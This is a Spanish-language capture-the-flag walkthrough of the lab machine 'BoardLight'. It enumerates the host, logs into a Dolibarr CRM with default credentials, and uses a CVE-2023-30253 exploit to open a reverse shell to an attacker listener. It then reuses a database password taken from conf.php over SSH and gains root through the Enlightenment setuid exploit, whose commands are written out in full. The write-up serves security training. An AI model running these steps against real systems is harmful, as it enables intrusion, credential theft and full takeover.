

# Resolución maquina boardlight

**Autor:** PepeMaquina  
**Fecha:** 18 de octubre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Default credentials, CVE, setuid.

---
## Imagen de la Máquina

*Imagen: boardlight.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.11 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.10.11.11 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
### Enumeración de la página web
Al inspeccionar la página web no se encontró algo importante mas que el nombre del dominio que es "board.htb", por lo que se la agrego al /etc/hosts.
~~~bash
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.11 board.htb
~~~
Con ello se realiza la enumeración tanto de directorios.
~~~
feroxbuster -u http://board.htb  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php
~~~
Y tambien la enumeración de subdominios.
~~~bash
wfuzz -u http://10.10.11.11 -H "Host:FUZZ.board.htb " -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 517
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.11/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                    
=====================================================================

000000107:   200        149 L    504 W      6360 Ch     "crm"
~~~
Despues de esperar un tiempo, se pudo encontrar un subodminio, al agregarlo al /etc/hosts.
~~~
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.11 board.htb crm.board.htb
~~~
Al inspeccionar el contenido del subdominio, se pudo encontrar que esta en una aplicación web predefinida, con un inicio de sesion.
Como punto principal siempre se prueban las credenciales basicas encontrando la correcta con (admin:admin)

Con ello se pudo acceder a un dashboard interactivo, donde al parecer se puede crear diferentes páginas y demas, como se tiene la versión, se procede a buscar alguna vulnerabilidad.
### CVE-2023-30253
Se encontró una vulnerabilidad asociado a un CVE-2023-30253, esta es valida para la versión dolibarr 17.0.0 que poseemos.
Encontrando un exploit en github (https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) se procede a replicar el mismo que lanza una reverse shell para obtener acceso a un usuario dentro del servidor.
Primero manteniendo en escucha un puerto.
~~~bash
sudo nc -nlvp 4433
~~~
Al correr el script debearia realizar la conexion con la reverse shell.
~~~bash
python3 exploit.py http://crm.board.htb admin admin 10.10.14.17 4433
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password
~~~
Viendo asi que se tiene acceso mediante una cuenta de servicio que corre el servidor web "www-data"
~~~bash
sudo nc -nlvp 4433                                                           
[sudo] password for kali: 
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.11] 53472
bash: cannot set terminal process group (857): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

### Pivoteo usuario relevante del servidor
Se tiene acceso a www-data, pero ese no es un usuario realmente del servidor, asi que viendo que usuarios tienen una bash en el servidor, se puede ver que existe un usuario root y larissa
~~~bash
www-data@boardlight:~/html/crm.board.htb/htdocs$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
~~~
Asi que se debe saltar al usuario larissa para poder escalar a root.
Lo primero que siempre veo son las carpetas o archivos de configuración, por lo que observando una se pudo encontrar una carpeta "conf" y dentro de ella un archivo "conf.php"
~~~bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls -la
total 56
drwxr-xr-x  2 www-data www-data  4096 May 17  2024 .
drwxr-xr-x 79 www-data www-data  4096 Mar  4  2023 ..
-rw-r--r--  1 www-data www-data    31 Mar  4  2023 .htaccess
-rw-r--r--  1 www-data www-data  1736 May 17  2024 conf.php
-rw-r--r--  1 www-data www-data 16394 Mar  4  2023 conf.php.example
-r--------  1 www-data www-data 16394 May 13  2024 conf.php.old
~~~
Entrando en "conf.php" se pudieron encontrar algunas credenciales que podrian reutilizarse para ingresar por ssh, asi que se podria probar.
~~~
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='se<SNIP>3!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Al probar las credenciales encontradas, se vio que se puede entrar por ssh para el usuario "larissa", con ello ya se puede obtener la user flag.
~~~bash
ssh larissa@10.10.11.11            
The authenticity of host '10.10.11.11 (10.10.11.11)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.11' (ED25519) to the list of known hosts.
larissa@10.10.11.11's password: 
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
larissa@boardlight:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Se realizó la enumeración básica, viendo los permisos SUID.
~~~bash
larissa@boardlight:~$ find / -type f -perm -04000 -ls 2>/dev/null
     2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8  2024 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2  2024 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
     2211     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /usr/bin/newgrp
      230     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /usr/bin/mount
     5609    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
     2245     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /usr/bin/su
     5334     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /usr/bin/chfn
      231     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /usr/bin/umount
     5337     88 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /usr/bin/gpasswd
     5338     68 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /usr/bin/passwd
      375     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
     5335     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /usr/bin/chsh
      484     16 -rwsr-xr-x   1 root     root          14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
~~~
Al revisar la salida, se puede ver un archivo que no es común y podria ser vulnerable (/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys).
Asi que averiguando en internet, se pudo encontrar un exploit público que afecta al binario (enlightenment) (https://www.exploit-db.com/exploits/51180).
~~~
./exploit.sh
~~~
Al correr el exploit, este no funciono y me bugueo la bash, asi que se me ocurre hacer dos cosas:
- Probar manualmente paso a paso
- Buscar otro exploit
Al ver el código del exploit, no es muy largo por lo que se procede a replicar paso a paso (literalmente copiar y pegar).
~~~bash
larissa@boardlight:/tmp$ mkdir -p /tmp/net
larissa@boardlight:/tmp$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:/tmp$ echo "/bin/sh" > /tmp/exploit
larissa@boardlight:/tmp$ chmod a+x /tmp/exploit
larissa@boardlight:/tmp$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
~~~
De esta forma de logro obtener una sesion como root.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso a "root", ya se puede leer la root flag y realizar todo lo que se quisiera para lograr persistencia.
~~~bash
# cd /root
# ls
root.txt  snap
# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

NOTA: Ahora que lo veo, pertenecemos al grupo "adm", por lo que se puede ver los logs dentro de "/var", puede que esta sea otra forma de escalar el sistema, pero lo dejo a su imaginación.